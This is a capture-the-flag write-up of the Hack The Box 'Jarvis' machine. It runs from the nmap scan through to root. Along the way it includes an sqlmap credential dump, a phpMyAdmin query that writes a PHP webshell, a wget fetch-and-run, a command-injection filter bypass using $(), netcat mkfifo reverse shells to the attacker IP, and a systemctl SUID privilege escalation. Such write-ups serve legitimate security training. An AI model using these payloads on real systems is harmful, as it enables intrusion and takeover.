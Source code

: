 # Jarvis (HACK THE BOX)

Hey Guys,Today we will be doing Jarvis from HackTheBox,
<<logo-png>>
<br/>

## Nmap Scan

```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.143 -Pn -v                                                                                      
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-29 17:55 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 17:55
Completed Parallel DNS resolution of 1 host. at 17:55, 0.01s elapsed
Initiating Connect Scan at 17:55
Scanning 10.10.10.143 [1000 ports]
Discovered open port 22/tcp on 10.10.10.143
Discovered open port 80/tcp on 10.10.10.143
Increasing send delay for 10.10.10.143 from 0 to 5 due to 79 out of 262 dropped probes since last increase.
Completed Connect Scan at 17:56, 54.66s elapsed (1000 total ports)
Initiating Service scan at 17:56
Scanning 2 services on 10.10.10.143
Completed Service scan at 17:56, 7.18s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.143.
Initiating NSE at 17:56
Completed NSE at 17:56, 2.45s elapsed
Initiating NSE at 17:56
Completed NSE at 17:56, 0.00s elapsed
Nmap scan report for 10.10.10.143
Host is up (0.58s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.01 seconds
```
We have only 2 ports opened(well one more but it was a rabbit hole) so let's start looking at port 80

## Enumerating Web Server

<<selection009>>
<br/>
After looking around we found a good candidate for vulnerabilites like sql injection or LFI,etc

## HARVESTING CREDENTIALS

We were able to harvest credentials of admin from this following query
```
sqlmap -u "http://10.10.10.143/room.php?cod=3" --random-agent -D mysql -T user  --dump
```
and the output is :-
```
Username:-DBadmin
Password:-*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
But this is a sha1 hash so after some hit and trial with the hash we got the value decrypted :)
<<selection010>>
<br/>

```
password:-imissyou
```

## Getting Remote Code Execution

we found ```phpmyadmin``` in dirb results
```
[sarthak@sarthak ~]$ dirb http://10.10.10.143                                                                                    [0/29]

-----------------                
DIRB v2.22                       
By The Dark Raver                
-----------------                

START_TIME: Sat Jun 29 18:00:31 2019                               
URL_BASE: http://10.10.10.143/                                     
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                                   

-----------------                

GENERATED WORDS: 4612                                                                                                                  

---- Scanning URL: http://10.10.10.143/ ----                                                                                           
==> DIRECTORY: http://10.10.10.143/phpmyadmin/
```
After logging in with the credentials we got from sqlmap,We created a new database to upload shell ([Reference](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/))

<<selection 011>>
<br/>

We used the following query to create a new PHP one liner shell

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/hack.php"
```
<<selection 012>>
<br/>

We can execute commands now
<<selection 013>>
<br/>

## Low Priv Shell

We [downloaded](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) a PHP shell from here and started a listner

Now we got a shell by executing this command on our rce php file...
```
http://10.10.10.143/hack.php?cmd=wget http://10.10.15.239:8081/sh.php;php sh.php
```
<<selection 014>>
<br/>

## Pivoting to pepper user

we saw that we can execute this script ```simpler.py``` as user pepper 
```
$ python -c 'import pty;pty.spawn("/bin/bash")'                                                 
www-data@jarvis:/$ sudo -l                                                                      
sudo -l                                                                                         
Matching Defaults entries for www-data on jarvis:                                               
    env_reset, mail_badpass,                                                                    
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin               
                                                                                                
User www-data may run the following commands on jarvis:                                         
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py                                
www-data@jarvis:/$    
```

After Going through the source code we found out that if we execute this script with ```-p``` paramter, it will ask for an ip address and there we can inject our code but it have a security check which blocks some characters...

```
forbidden = ['&', ';', '-', '`', '||', '|']
```
So after googling for a while we found out [this](https://vulners.com/zdt/1337DAY-ID-28868),So according to this we can execute commands inside `$(commands)` and it will bypass those checks...

So we downloaded a ```shell.sh```  on the server which has netcat reverse shell in it ...
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1233 >/tmp/f
```

and upon executing this command we get a reverse connection
```
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```
then it asks for a IP address and we executed this command to get shell
```
$(sh /var/www/html/shell.sh)
```
<<workspace_15>>
<br/>

## Privesc

Upon executing this ``` find / -perm -u=s -type f 2>/dev/null ``` command we found out that ```systemctl``` will run as root 

```
pepper@jarvis:/var/www$ find / -perm -u=s -type f 2>/dev/null 
find / -perm -u=s -type f 2>/dev/null 
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:/var/www$ 

```
To exploit this we have to create our own service which will get us shell so we use [this](https://www.linode.com/docs/quick-answers/linux/start-service-at-boot/) website to get a template for service creation

```
[Unit]
Description=Example systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /home/pepper/lol.sh

[Install]
WantedBy=multi-user.target
```
we saved it as ```sarthak.service``` and given proper permissions ```chmod 777 sarthak.service``` and that ```lol.sh``` has another netcat shell which will pop shell on port 1232 
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.239 1232 >/tmp/f" > lol.sh;chmod +x lol.sh
```
Now we will take reference from this [site](https://gtfobins.github.io/gtfobins/systemctl/)

  - assigned TF variable ```TF=/home/pepper/sarthak.service```
  - Link the sarthak.service ```/bin/systemctl link $TF```
  - Start a listner on port 1232
  - Enable the service ``` /bin/systemctl enable --now $TF ```
  
 OUTPUT:-
 ```
 pepper@jarvis:~$ TF=/home/pepper/sarthak.service
TF=/home/pepper/sarthak.service
pepper@jarvis:~$ /bin/systemctl link $TF
/bin/systemctl link $TF
Created symlink /etc/systemd/system/sarthak.service -> /home/pepper/sarthak.service.
pepper@jarvis:~$ /bin/systemctl enable --now $TF
/bin/systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/sarthak.service -> /home/pepper/sarthak.service.
pepper@jarvis:~$ 
 ```
 
 And on our netcat now :)
 
 ```
 [sarthak@sarthak ~]$ nc -nvlp 1232
Connection from 10.10.10.143:44684
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# python -c 'import pty;pty.spawn("/bin/bash")'
root@jarvis:/# id
id
wuid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# hoami
whoami
root

 ```
 Hooray !!! We rooted it 
 <<meme>>
 <br/>
This was a good and straight forward machine,
and if you guys like it stay tuned for more :)
